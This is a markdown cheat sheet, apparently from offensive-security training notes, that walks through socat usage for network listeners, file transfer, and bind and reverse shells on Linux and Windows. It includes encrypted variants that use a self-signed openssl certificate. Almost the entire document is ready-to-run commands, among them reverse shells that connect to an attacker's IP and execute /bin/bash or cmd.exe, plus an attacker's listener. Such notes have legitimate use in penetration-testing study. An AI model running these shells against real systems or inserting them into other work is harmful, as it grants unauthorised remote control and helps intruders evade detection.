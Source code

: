 # Socat

## Binding and Listening

```text
socat - TCP4:10.11.1.8:80
```

* The hyphen `-` character is used to transfer data between stdio and the remote host \(allowing our keyboard interaction with the shell\).
* The protocol, options, and port number are colon-delimited.

```text
sudo socat TCP4-LISTEN:443 STDOUT
```

## File Transfer

```text
sudo socat TCP4-LISTEN:443,fork file:reverse_shell.pem
```

* the `TCP4-LISTEN` option specifies an IPv4 listener
* `fork` creates a child process once a connection is made to the listener, which allows multiple connections
* `file`: specifies the name of a file to be transferred:

```text
socat TCP4:10.11.0.4:443 file:reverse_shell.pem,create
```

* `file`: specifies the local file name to save
* `create` specifies that a new file will be created

## Bind Shell

{% code title="Linux Bind Shell" %}
```text
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
{% endcode %}

{% code title="Windows Bind Shell" %}
```text
socat TCP4-LISTEN:443 EXEC:'cmd.exe',pipes
```
{% endcode %}

```text
socat - TCP4:192.168.119.189:443
```

## Reverse Shell

```text
socat -d -d TCP4-LISTEN:443 STDOUT
```

* `-d -d` option to increase verbosity \(showing fatal, error, warning, and notice messages\)
* `STDOUT` to connect standard output \(STDOUT\) to the TCP socket

{% code title="Windows Reverse Shell" %}
```text
socat TCP4:192.168.119.189:443 EXEC:'cmd.exe',pipes
```
{% endcode %}

{% code title="Linux Reverse Shell" %}
```text
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```
{% endcode %}

* `EXEC` option \(similar to the Netcat -e option\), which will execute the given program once a remote connection is established

## Encrypted Shells

Firstly, create a self-signed certificate using `openssl`

{% page-ref page="../linux-things/linux-useful-utilities.md" %}

```text
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

### Encrypted Bind Shell

{% code title="Encrypted Linux Bind Shell" %}
```text
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
{% endcode %}

{% code title="Encrypted Windows Bind Shell" %}
```text
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:'cmd.exe',pipes
```
{% endcode %}

* `OPENSSL-LISTEN` option to create the listener on port 443 with `OPENSSL`
* `cert=bind_shell.pem` to specify our certificate file
* `verify=0` to disable SSL verification
* `fork` to spawn a child process once a connection is made to the listener:

```text
socat - OPENSSL:192.168.189.10:443,verify=0
```

* `-` to transfer data between STDIO and the remote host
* `OPENSSL` to establish a remote SSL connection to  listener on 10.11.0.4:443
* `verify=0` to disable SSL certificate verification

### Encrypted Reverse Shell

{% code title="Attacker\'s listener" %}
```text
socat -d -d OPENSSL-LISTEN:443,cert=reverse_shell.pem,verify=0 STDOUT
```
{% endcode %}

{% code title="Encrypted Windows Reverse Shell" %}
```text
socat OPENSSL:192.168.119.189:443,verify=0 EXEC:'cmd.exe',pipes
```
{% endcode %}

{% code title="Encrypted Linux Reverse Shell" %}
```text
socat OPENSSL:192.168.189.10:443,verify=0,fork EXEC:/bin/bash
```
{% endcode %}



